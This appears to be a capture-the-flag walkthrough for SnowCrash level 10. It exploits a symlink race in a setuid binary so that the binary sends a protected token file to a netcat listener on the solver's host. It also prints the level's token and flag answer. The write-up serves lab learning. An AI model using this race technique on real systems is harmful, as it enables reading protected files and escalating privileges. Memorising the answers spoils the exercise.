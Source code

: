# Level 10

## step 1 : analyze level10

## step 2 : find host
```
$ ifconfig
...
192.168.56.1
...
```
conversion:
192 * 2^24 + 168  * 2^16 + 56 * 2^8 + 1 = 3232249857

## step 3 : run a server and a client to receive messages
```
$ gcc mini_serv ; ./a.out 6969
$ nc 192.168.56.1 6969
```

## step 4 : bypass permissions of level08
run link.sh in SnowCrash
*this script create a symlink on a file on which we have permission and the token, switching between them*
```
$ sh link.sh
```

## step 4 : catch the token
run level10, probably need to do it more than once since we need to get the right timing:
```
$ ./level10 /tmp/link 192.168.56.1
```
token : woupa2yuojeeaaed06riuj63c

## step 5 :  get level11 password
```
$ su flag10
$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
